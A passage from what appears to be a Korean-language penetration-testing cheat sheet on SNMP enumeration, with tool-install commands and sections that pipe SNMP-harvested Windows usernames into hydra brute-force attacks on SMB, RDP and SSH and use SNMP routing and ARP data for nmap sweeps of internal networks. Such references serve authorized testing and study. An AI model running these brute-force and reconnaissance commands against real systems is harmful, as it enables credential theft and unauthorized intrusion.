 ### 🔧 도구 설치 문제

```bash
# 필요한 패키지 설치
sudo apt update
sudo apt install snmp snmp-mibs-downloader
sudo apt install onesixtyone

# MIB 데이터베이스 다운로드
sudo download-mibs

# snmp.conf 설정
echo "mibs +ALL" >> ~/.snmp/snmp.conf
```

---

## 🔗 다른 서비스와 연계

### 👥 수집한 사용자 정보 활용

```bash
# SNMP에서 수집한 Windows 사용자로 다른 서비스 공격
snmpwalk -c public -v1 {IP} 1.3.6.1.4.1.77.1.2.25 | grep STRING | cut -d'"' -f2 > snmp_users.txt

# 수집한 사용자로 SMB 브루트포스
hydra -L snmp_users.txt -P passwords.txt smb://{IP}

# RDP 브루트포스
hydra -L snmp_users.txt -P passwords.txt rdp://{IP}

# SSH 브루트포스 (Linux인 경우)
hydra -L snmp_users.txt -P passwords.txt ssh://{IP}
```

### 🌐 네트워크 정보 활용

```bash
# SNMP에서 발견한 다른 IP 주소들 스캔
snmpwalk -c public -v1 {IP} 1.3.6.1.2.1.4.20.1.1 | grep INTEGER | cut -d: -f4 | tr -d ' ' > discovered_ips.txt
nmap -sn -iL discovered_ips.txt

# 라우팅 테이블에서 내부 네트워크 발견
snmpwalk -c public -v1 {IP} 1.3.6.1.2.1.4.21.1.1
# 발견된 네트워크 대역 스캔
nmap -sn 192.168.0.0/24

# ARP 테이블에서 활성 호스트 확인
snmpwalk -c public -v1 {IP} 1.3.6.1.2.1.4.22.1.2
```

